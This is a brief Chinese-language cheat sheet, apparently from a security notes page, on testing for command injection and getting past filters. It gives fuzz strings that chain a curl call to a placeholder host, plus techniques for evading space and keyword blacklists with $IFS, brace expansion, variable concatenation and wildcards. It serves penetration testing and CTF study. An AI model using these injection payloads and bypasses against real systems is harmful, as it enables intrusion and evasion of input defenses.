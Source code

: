 ### 基本测试

建议Fuzzing,需要构造Fuzz列表，比如

```
&& curl www.1.com &&
`curl www.1.com`
;curl www.1.com
```

### 命令执行绕过技巧

#### 过滤空格

进而用`%20`这种url编码绕过，然后可以使用%00-%ff区间的字符串进行测试

##### Windows

```
echo%ProgramFiles:~10,1%
```

在这里`~`做一个截取符，表示取环境变量的值

##### Linux

命令

```
echo aaa
```

绕过方式

```
echo$IFS$9aaa
{echo,aaaa}
cat<>flag
echo${IFS}aaa
```



#### 关键字黑名单

可能会过滤比如cat,curl等关键字

##### 变量拼接

```
a=c;b=at;c=hell;d=o;$a$b ${c}${c}
```

#####   使用通配符

`？`代表任意一个字符串

`*`代表任意个字符串

##### 借用已知字符
